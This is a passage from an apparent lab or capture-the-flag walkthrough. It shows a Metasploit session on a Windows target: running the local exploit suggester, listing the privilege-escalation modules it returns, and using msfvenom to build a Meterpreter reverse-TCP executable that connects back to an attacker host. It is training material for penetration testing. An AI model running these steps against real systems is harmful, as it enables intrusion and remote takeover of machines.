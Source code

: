 Now let's run exploit suggester module.

We background our session and select the module

```terminal
(Meterpreter 3)(C:\Users\User\Downloads) > background
[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(multi/http/apache_activemq_upload_jsp) >> use post/multi/recon/local_exploit_suggester
```

Now we set the session and run the module

```terminal
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> set session 1  
session => 1          
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> exploit        
[*] 10.150.150.219 - Collecting local exploits for java/windows...  
[*] 10.150.150.219 - 202 exploit checks are being tried...          
[+] 10.150.150.219 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.       
[+] 10.150.150.219 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.             
[+] 10.150.150.219 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.                  
[+] 10.150.150.219 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.         
[*] Running check method for exploit 42 / 42                        
[*] 10.150.150.219 - Valid modules for session 1:                   
============================             

 #   Name             Potentially Vulnerable?  Check Result                        
 -   ----             -----------------------  ------------                        
 1   exploit/windows/local/ikeext_serviceYes                      The target appears to be vulnerable.
 2   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.   
```

We got 4 exploits but after trying them nothing worked.

Let's try upgrading our meterpreter shell from `java/meterpreter/reverse_tcp` to `windows/meterpreter/reverse_tcp`

First we generate the payload using `msfvenom`

```terminal
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.66.66.230 LPORT=5555 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: rev.exe
```
